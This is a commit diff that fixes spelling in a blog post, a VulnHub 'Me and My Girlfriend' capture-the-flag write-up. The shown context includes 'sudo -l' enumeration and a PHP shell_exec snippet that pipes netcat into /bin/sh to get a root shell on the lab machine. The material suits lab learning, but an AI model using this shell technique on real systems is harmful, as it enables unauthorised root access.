

Before and after one commit to spyx/spyx.github.io, a Jekyll site: the page built from _posts/2020-3-1-vulnhub_me_and_my_girlfriend.md, in a window 1280 px wide and 900 px high, scrolled down 3310 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
fix typos in article

````diff
--- a/_posts/2020-3-1-vulnhub_me_and_my_girlfriend.md
+++ b/_posts/2020-3-1-vulnhub_me_and_my_girlfriend.md
@@ -39,7 +39,7 @@ I was in. With little poking around Alice has hidden folder with all her secrets
 
 ![](/images/vuln_me_girlfriend/flag_1.png)
 
-After start looking for priviledge escalation as start searching for some sticky bits or some clues. Them after reading few linux simple priviledge escalation tricks. I tried this command
+After start looking for privilege escalation as start searching for some sticky bits or some clues. Them after reading few linux simple privilege escalation tricks. I tried this command
 
 ```
 sudo -l
@@ -71,7 +71,7 @@ and hurray got second flag...
 
 ![](/images/vuln_me_girlfriend/flag_2.png)
 
-That's it all, right? Well i was happy i pwned this machine but them i asked my self. Can I used this priviledge escalation misconfiguration to get proper root shell? Challange accepted. I know you can use nc and -e to bind bash to you but version nc on that machine was did not have -e. After asking my search engine for help. I was able to find article where this exact nc version can be use to get access to shell. I changed my shell to this one.
+That's it all, right? Well i was happy i pwned this machine but them i asked my self. Can I used this privilege escalation misconfiguration to get proper root shell? Challenge accepted. I know you can use nc and -e to bind bash to you but version nc on that machine was did not have -e. After asking my search engine for help. I was able to find article where this exact nc version can be use to get access to shell. I changed my shell to this one.
 
 ```php
 <?php
@@ -80,7 +80,7 @@ $a = shell_exec('nc localhost 4444 0<f | /bin/sh -i 2>&1 | tee -f');
 ?>
 ```
 
-Run 'screen' commnad to have to virtual sessions. Lunch nc to listen on port 4444. Move to second session and run my php file. BAAAM i have root shell :)
+Run 'screen' command to have to virtual sessions. Lunch nc to listen on port 4444. Move to second session and run my php file. BAAAM i have root shell :)
 
 ![](/images/vuln_me_girlfriend/root_shell.png)
 
````
Also changed, not shown: other parts of _posts/2020-3-1-vulnhub_me_and_my_girlfriend.md (+4 -4 lines).
